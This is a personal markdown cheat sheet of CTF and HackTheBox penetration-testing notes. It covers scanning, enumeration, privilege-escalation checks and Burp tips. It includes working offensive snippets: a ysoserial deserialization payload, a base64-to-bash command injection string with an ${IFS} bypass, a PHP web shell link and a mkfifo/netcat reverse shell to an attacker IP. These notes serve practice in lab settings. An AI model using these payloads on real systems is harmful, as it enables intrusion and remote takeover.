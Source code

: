 # Notes that include various things I've found useful in some ctfs. 
## Tools

Subdomain enumeration 


* GoBuster - good for DNS searchers. Always use the -t 1000 switch while on VPN
* DirSearch - Quick for directory searches 
* FFuF - doesn't work that well on HTB vpns


nmap
* Service Version all with output to note. 
```
sudo nmap -sV -A host -oN host-nmap.txt
```
* Regular scan for a quick scan
```
nmap -p- host
```
* udp scan -T4 + agression -vv verbose
```
nmap -sU -T4 -vv
```
Serliaze a command (this case a ping) to a .des file to eventually turn into b64 
```
java -jar ysoserial-all.jar CommonsBeanutils1 'ping 10.10.14.11 -c 5' > ping.des 
```

Get the b64 payload 
```
base64 -w 0 ping.des > ping.b64 
```

Reading base64 payload then running in bash. 
```
;echo 'payload'|base64 -d|bash;
```

Find Permissions that you have - 
```
find / -type f -perm -u=s 2>/dev/null
```

Find Password in Derby.dat (ofbiz)
```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Sign in as admin
```
su root
```	
Make bash script executable 
```
chmod +x filename.sh
```
See if you can run anything that normally requires sudo with current account
```
sudo -l
```

White [space] in commands
```
${IFS}
```
		
Basic Netcat listener 
```
nc -lvnp 4444
```
	
Basic http.server to fetch with
```
python3 -m http.server
```	
PhP shell, save as .phar file or other php varients. 
```
https://github.com/flozz/p0wny-shell
```
SNMPWalk - Gather info from SNMP. v2c specifies snmp version -c specifies a specific string you're looking for
```
snmpwalk -v2c -c string domain 
snmpwalk -c <community_string> -v2c <OID>
```
	
Basic SQLmap on a domain 
```
sqlmap -u "vulndomain" --batch 
```
Fetching password in windows using powershell 
```
echo PASSWORD > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

#Shells
Outside of revshells, there may be others that are useful 
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [IP] [port] >/tmp/f
```


# Identification 
```
uname -a
```
```
cat /etc/os-release
```
```
find / -name "filename.type"
```

***Look at some word lists that include/actuator***

# Tips N Tricks

***Always try default credentials***

When using the cookie, use the intercept mode and do it one by one for each authentication in Burp. There is a way to configure it where it will automatically use it, somewhere. Haven't figured that part out. 

When doing downloads, use intercept and see if you can do directory traversal or fetch other files than what you're looking to downloads



# Good Resources 

GTFOBins
	https://gtfobins.github.io/

Hack Tricks
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp?source=post_page-----cc2d7b64da35--------------------------------
